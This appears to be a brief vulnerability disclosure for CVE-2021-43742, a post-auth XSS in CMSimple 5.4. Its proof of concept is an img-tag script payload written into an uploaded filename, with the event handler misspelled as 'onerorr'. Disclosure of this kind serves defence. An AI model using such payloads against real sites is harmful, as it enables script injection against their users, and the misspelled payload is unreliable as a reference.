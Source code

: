 

<h1>CVE-2021-43742</h1>

```CMSimple 5.4```

Reported by S1lv3r

```Description :```

Post-auth XSS

```Version :```
CMSimple 5.4 Version

```Attack Type:```
Local

```PoC:```
``` javascript
> <img src='1' onerorr=alert('Silv3r')>s.php

```

```1-``` Go to uploading files section, Then write XSS payload on filename : <br/>


<img src="https://github.com/iiSiLvEr/CVEs/blob/main/CVE-2021-43742/images/REQ.png"  /><br/>


```2-``` Result <br/>


<img src="https://github.com/iiSiLvEr/CVEs/blob/main/CVE-2021-43742/images/XSSPoc.png"  /><br/>


CVE-2021-43742

